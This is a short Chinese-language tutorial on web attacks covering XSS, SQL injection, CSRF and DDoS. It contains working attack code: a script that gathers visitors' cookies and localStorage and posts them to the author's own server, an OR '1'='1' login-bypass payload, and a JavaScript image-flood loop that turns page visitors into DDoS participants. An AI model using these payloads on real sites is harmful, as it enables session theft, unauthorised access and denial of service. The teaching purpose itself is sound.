 #Web安全機制

## #XSS(Cross-site Scripting)

1.假設網站有一個留言板

![](/assets/螢幕快照 2017-02-02 下午2.02.41.png)

2.但該網站沒有過濾script標籤，而是直接使用innerHTML讓使用者輸入後直接顯示

3.這時假設剛才的test.js 改為 你的網域下的一隻js程式碼，然後該程式碼內含有

```
var test1 = document.cookie();
function allStorage() {
    var values = [],
        keys = Object.keys(localStorage),
        i = keys.length;

    while ( i-- ) {
        values.push( localStorage.getItem(keys[i]) );
    }

    return values;
}
var test2 = allStorage(); //取得所有localstorage傳給變數test2

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage

```

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage

Ex:
```
$.post('https://我的站點/test',{cookie: test1,localStorage: test2})
```


## #SQL Injection



```
var userName = req.body.username;
var passWord = req.body.password;

strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

POST時將資料寫入

```
userName = "1' OR '1'='1";
與
passWord = "1' OR '1'='1";

```
將導致原本的SQL字串被填為

```
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

上述語句等同於

```
strSQL = "SELECT * FROM users;"
```

將會取出所有使用者

https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A

## #CSRF(Cross-site request forgery) 

偽造用戶請求像網站發出惡意請求

防範方式:

server 在render畫面時會給出 csrfhash，並隱藏在表單中，之後client端提交，此csrf會跟著送到server並且進行比對

```
<form method="POST" action="/upload?_csrf={{ csrfhash }}" enctype="multipart/form-data">
  title: <input name="title" />
  file: <input name="file" type="file" />
  <button type="submit">上传</button>
</form>
```

## #DDos(distributed denial-of-service attack)

中文為:分散式阻斷服務攻擊

假設我們寫如下程式
```
function imgflood() {  
  var TARGET = 'test.website.com'
  var URI = '/picture?'
  var pic = new Image()
  var rand = Math.floor(Math.random() * 1000)
  pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflood, 10)
```
之後瀏覽此網頁的使用者將會每0.01秒產生一個request到目標網站

所以不知情的使用者如果點選了我們的網站，他也會加入對目標網站攻擊的行列



